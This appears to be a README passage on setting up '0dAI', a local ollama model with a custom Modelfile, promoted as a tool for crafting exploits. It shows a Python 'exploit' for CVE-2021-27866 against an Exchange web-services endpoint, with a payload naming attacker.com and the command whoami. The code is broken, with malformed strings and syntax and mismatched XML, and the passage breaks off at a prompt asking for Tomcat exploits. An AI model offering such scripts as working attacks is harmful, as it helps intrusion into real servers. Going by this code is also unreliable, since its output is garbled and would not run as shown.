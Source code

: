 3. congrats, you have the model. now you need to create a file named `Modelfile` which it has the system prompt and more things, you can download mine here:  [Modelfile](https://raw.githubusercontent.com/notluken/notluken.github.io/master/assets/Modelfile)  it needs to be in the same folder of  `quantized.bin`. i will move it to another directory

4. run `ollama create 0dAI -f Modelfile` to create the AI and `ollama run 0dAI` to chat.

## example prompts
0dAI can do a lot of things:
### crafting an Exploit

>Prompt: Write a script about the CVE-2021-27866 in Python

```python
import requests
import json

# Define the base URL for the vulnerable Exchange Server
base_url = 'http://example.com/EWS/Exchange.asmx'

# Define the payload to be sent in the request
payload = {'Caller': 'https://attacker.com', 'Command': 'whoami'}

# The function that sends the crafted XML requests
def exploit(url):
    # Construct the XML request body
    xml_payload = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:tem=\"http://tempuri.org/\">" + json.dumps(payload)
    xml_payload += "</soapenv:Body></soapenv:Envelope>"
    headers = {'Content-Type': 'text/xml; charset=utf-8')

    # Send the exploit request
    try:
        response = requests.post(url, data=xml_payload, headers=headers)

        # If the response is successful (status code 200), extract and print the response
        if response.status_code == 200:
            result = json.loads(response.text)
            print("Response: ", result)
    except requests.exceptions.RequestException as e:
        # If an exception occurs, print the error message
        print("Error:", e)

# Call the exploit function with the base URL
exploit(base_url)
```

### exploit finder (offline)

#### Apache Tomcat 

> Prompt: Tell me some exploits of Apache Tomcat

